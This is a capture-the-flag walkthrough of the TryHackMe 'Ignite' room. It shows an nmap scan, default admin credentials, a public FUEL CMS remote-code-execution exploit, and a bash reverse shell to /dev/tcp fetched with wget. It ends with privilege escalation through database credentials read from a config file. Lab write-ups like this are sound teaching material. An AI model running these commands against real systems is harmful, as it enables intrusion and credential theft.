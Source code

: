 # Ignite

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Intro

| Room Info           | ![](.gitbook/assets/ignite.png)             |
| :------------------ | ------------------------------------------- |
| 🔗 Name              | [Ignite](https://tryhackme.com/room/ignite) |
| 🎯 Target IP         | `10.10.174.21`                              |
| 📈 Difficulty level  | 🟢Easy                                       |
| 💲 Subscription type | Free                                        |
| 🐧 OS                | Linux                                       |

---

## Recon

```bash
mkdir ignite
cd ignite
nmap -sV -sC -oA nmap_ignite 10.10.174.21
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

> 📌 Found **FUEL CMS v. 1.4** on port `80`

### Local Recon

Navigate to

* `http://10.10.174.21/`
* `http://10.10.174.21/fuel`
  * `admin`:`admin`

## Exploitation

* Search for a Fuel CMS exploit

```bash
searchsploit fuel cms
searchsploit -m 50477
less 50477.py

python 50477.py -u http://10.10.174.21
```

> 📌 [Fuel CMS 1.4.1 - Remote Code Execution (3)](https://www.exploit-db.com/exploits/50477)

```bash
whoami
```

![](.gitbook/assets/image-20230511172416842.png)

### Reverse Shell

```bash
ip -br -c a
	10.18.65.48 # my IP
	
subl shell.sh

# Insert this line for a bash reverse shell
/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1
```

* Setup a Python web server and a `nc` listener on 2 different tabs

```bash
python -m http.server

nc -nvlp 3333
```

* Back in the exploited Fuel CMS `Enter Command $`

```bash
wget http://10.18.65.48:8000/shell.sh -O shell.sh
bash shell.sh
```

* 🚩 Reverse shell received in the `nc` terminal

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
6470e***************************
```

---

## Privilege Escalation

* Enumerate Fuel CMS application
  * `/var/www/html/fuel/application/config/`

```bash
cat /var/www/html/fuel/application/config/database.php
```

```bash
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
```

> 📌 Found database credentials: `root`:`mememe`

* Try to use those credentials for the `root` user of the system

```bash
su root

whoami
cd
cat root.txt
b9bbc**************************
```


![](.gitbook/assets/2024-10-20_22-24-49_763.png)

***
